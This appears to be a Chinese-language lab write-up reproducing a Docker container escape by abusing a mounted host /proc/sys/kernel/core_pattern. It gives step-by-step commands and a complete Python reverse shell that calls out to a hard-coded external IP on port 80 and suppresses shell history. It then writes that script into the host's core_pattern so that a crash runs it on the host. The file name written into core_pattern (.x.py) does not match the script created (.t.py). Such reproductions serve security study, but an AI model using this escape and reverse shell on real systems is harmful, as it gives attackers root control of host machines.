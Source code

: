 - 宿主机： 阿里云ECS centos7.6
- docker容器：ubuntu 18.04
- 监听机：腾讯云 centos7.6 
### 漏洞复现
#### 容器搭建
在宿主机中创建一个容器并挂载/proc目录
这里创建的容器是ubuntu的18.04版本，高版本apt会安装失败
```bash
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu:18.04
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665541008635-113dae4e-5b56-403f-8a2c-006db58c752b.png#averageHue=%23070403&clientId=u0f42f4aa-7114-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=49&id=uab111328&margin=%5Bobject%20Object%5D&name=image.png&originHeight=74&originWidth=932&originalType=binary&ratio=1&rotation=0&showTitle=false&size=7597&status=error&style=none&taskId=ufc796b8f-78eb-4576-aa77-28322676303&title=&width=621.3333333333334)
#### 挂载检测
进入容器后如果在容器中找到两个 core_pattern 文件，那可能就是挂载了宿主机的 procfs

```bash
find / -name core_pattern
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665541059680-36137384-e6fd-4822-a436-33ab3095be2e.png#averageHue=%23220d09&clientId=u0f42f4aa-7114-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=67&id=u3a243081&margin=%5Bobject%20Object%5D&name=image.png&originHeight=100&originWidth=437&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6208&status=error&style=none&taskId=uc9685874-34b5-49f5-a8eb-04a09437b34&title=&width=291.3333333333333)
#### 查找路径
找到当前容器在宿主机下的绝对路径
```bash
cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665541304519-0057077d-aa95-4841-a8e7-6987773c5511.png#averageHue=%2318100b&clientId=u0f42f4aa-7114-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=23&id=ua3f65709&margin=%5Bobject%20Object%5D&name=image.png&originHeight=34&originWidth=752&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6257&status=error&style=none&taskId=ub8cdc23c-743f-4f20-85ae-72528ca1df8&title=&width=501.3333333333333)
#### 容器安装vim、gcc
```bash
apt-get update -y && apt-get install vim gcc -y
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665541456982-4f868b1f-ecf7-483c-ae96-2a8f7417bb11.png#averageHue=%231b140e&clientId=u0f42f4aa-7114-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=192&id=uc24fc312&margin=%5Bobject%20Object%5D&name=image.png&originHeight=288&originWidth=649&originalType=binary&ratio=1&rotation=0&showTitle=false&size=44311&status=error&style=none&taskId=ud5aef08b-76b6-4264-8b24-5f2b4d56039&title=&width=432.6666666666667)
#### 创建反弹shell脚本
```bash
vim /tmp/.t.py
```
shell脚本内容
```bash
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "43.142.177.224"
lport = 80
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    os.putenv("HISTFILE", '/dev/null')
    pty.spawn("/bin/bash")
    # os.remove('/tmp/.t.py')
    s.close()
if __name__ == "__main__":
    main()
```
给 Shell 赋予执行权限
```bash
chmod 777 .t.py
```
然后写入执行反弹shell命令（即运行上面的py文件）到共享的/proc目录下的core_pattern文件中:
```bash
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo -e "|$host_path/tmp/.x.py \rcore    " >  /host/proc/sys/kernel/core_pattern
```